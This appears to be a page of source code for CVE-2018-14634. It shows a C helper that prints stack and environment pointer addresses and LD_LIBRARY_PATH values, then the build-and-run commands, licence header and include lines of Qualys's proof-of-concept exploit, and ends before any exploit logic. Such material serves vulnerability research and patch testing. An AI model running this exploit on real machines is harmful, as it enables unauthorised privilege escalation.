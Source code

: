 	int
	main(const int argc, const char * const * const argv, const char * const * const envp)
	{
 	   printf("argc %d\n", argc);

    	char stack = '\0';
    	printf("stack %p < %p < %p < %p < %p\n", &stack, argv, envp, *argv, *envp);

    	#define LLP "LD_LIBRARY_PATH"
    	const char * const llp = getenv(LLP);
    	printf("getenv %p %s\n", llp, llp);
	
    	const char * const * env;
    	for (env = envp; *env; env++) {
       	 if (!strncmp(*env, LLP, sizeof(LLP)-1)) {
       	     printf("%p %s\n", *env, *env);
       	 }
    	}
    	exit(EXIT_SUCCESS);
	}


#### poc-exploit.c   
$ gcc -o poc-exploit poc-exploit.c  
$ time ./poc-exploit  

	/*
     * poc-exploit.c for CVE-2018-14634
     * Copyright (C) 2018 Qualys, Inc.
     *
     * This program is free software: you can redistribute it and/or modify
     * it under the terms of the GNU General Public License as published by
     * the Free Software Foundation, either version 3 of the License, or
     * (at your option) any later version.
     *
     * This program is distributed in the hope that it will be useful,
     * but WITHOUT ANY WARRANTY; without even the implied warranty of
     * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
     * GNU General Public License for more details.
     *
     * You should have received a copy of the GNU General Public License
     * along with this program.  If not, see <http://www.gnu.org/licenses/>.
     */

    #include <limits.h>
    #include <paths.h>
    #include <stdint.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <sys/mman.h>
    #include <sys/resource.h>
    #include <sys/stat.h>
    #include <sys/time.h>
    #include <sys/types.h>
    #include <unistd.h>
